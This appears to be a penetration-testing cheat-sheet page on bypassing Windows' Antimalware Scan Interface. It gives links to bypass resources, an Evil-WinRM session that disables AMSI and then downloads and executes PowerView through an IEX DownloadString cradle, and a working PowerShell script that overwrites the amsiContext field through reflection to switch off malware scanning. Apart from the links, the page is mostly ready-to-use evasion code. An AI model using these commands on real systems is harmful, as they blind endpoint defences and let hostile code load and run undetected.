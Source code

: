 ```yaml
---
description: Antimalware Scan Interface
---
```


# AMSI Bypass

* [https://amsi.fail/](https://amsi.fail/)
* [https://blog.f-secure.com/hunting-for-amsi-bypasses/](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
* [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
* [https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
* [https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
* [https://iwantmore.pizza/posts/amsi.html](https://iwantmore.pizza/posts/amsi.html)
* [https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation](https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation)




## PowerShell



### Evil-WinRM + IEX

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```



### Wipe amsiContext

{% code title="amsiContext.ps1" %}
```powershell
$a = [Ref].Assembly.GetTypes()
ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}}
$d = $c.GetFields('NonPublic,Static')
ForEach($e in $d) {if ($e.Name -like "*Context") {$f = $e}}
$g = $f.GetValue($null)
[IntPtr]$ptr = $g
[Int32[]]$buf = @(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
{% endcode %}
